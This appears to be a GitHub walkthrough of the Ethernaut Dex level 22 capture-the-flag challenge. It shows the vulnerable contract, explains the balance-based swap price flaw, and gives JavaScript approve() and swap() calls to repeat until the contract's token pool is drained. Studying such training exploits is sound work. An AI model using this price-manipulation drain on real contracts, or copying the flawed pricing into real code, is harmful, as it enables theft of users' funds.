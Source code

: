 # Ethernaut Dex Level 22 Solution
This Project is a short walkthrough of the Ethernaut Dex level 22.

``` solidity
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';

contract Dex  {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor(address _token1, address _token2) public {
    token1 = _token1;
    token2 = _token2;
  }

  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swap_amount = get_swap_price(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swap_amount);
    IERC20(to).transferFrom(address(this), msg.sender, swap_amount);
  }

  function add_liquidity(address token_address, uint amount) public{
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }

  function get_swap_price(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(msg.sender, spender, amount);
    SwappableToken(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
  }
  function approve(address owner, address spender, uint amount) public returns(bool){
        super._approve(owner, spender, amount);
    }
}
```

You might want to read these articles before moving to the solution:
1. [ERC20 Approve/Allow Explained](https://medium.com/ethex-market/erc20-approve-allow-explained-88d6de921ce9)
2. [How does “swap” work between ERC20 tokens?](https://ethereum.stackexchange.com/a/92523/71430)

###Solution:
To solve this Level you only have to focus on this method:

```solidity
function get_swap_price(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }
```
The Initial balance of the contract for both tokens is 100.
`get_swap_price()` calculates the token price using the contract token balance. This method wil
```solidity
(amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this))
```
This will return the same swap price i.e 10 token1 can be swapped 10 token2. 

To hack this method you have to break the equilibrium of the contract token balance.

You have to perform the following steps to yield higher swap price

- call `approve()` with token2 balance
```javascript
await contract.approve(
  instance,
  Number((await contract.balanceOf(token2address, instance)).toString())
)
```  
- call `swap()` with these parameters
```javascript
  await contract.swap(
  token2address,
  token1address,
  Number((await contract.balanceOf(token2address, instance)).toString())
  )
```
- Now, Your token2 balance is 0 and token1 balance is 20. If you check the `get_swap_price()` You can get 24 token2 by swapping with 20 token1
- call `approve()` with token1 balance
```javascript
await contract.approve(
  instance,
  Number((await contract.balanceOf(token1address, instance)).toString())
)
```
- call `swap()` with these parameters
```javascript
  await contract.swap(
  token1address,
  token2address,
  Number((await contract.balanceOf(token1address, instance)).toString())
  )
```

Repeat these step until you reduced the contract balance of either token to 0.


(Note: You might get this error `ERC20: transfer amount exceeds balance`.
This is because the contract do not have enough balance for the token you are requesting. You can reduce the swap amount to handle this)
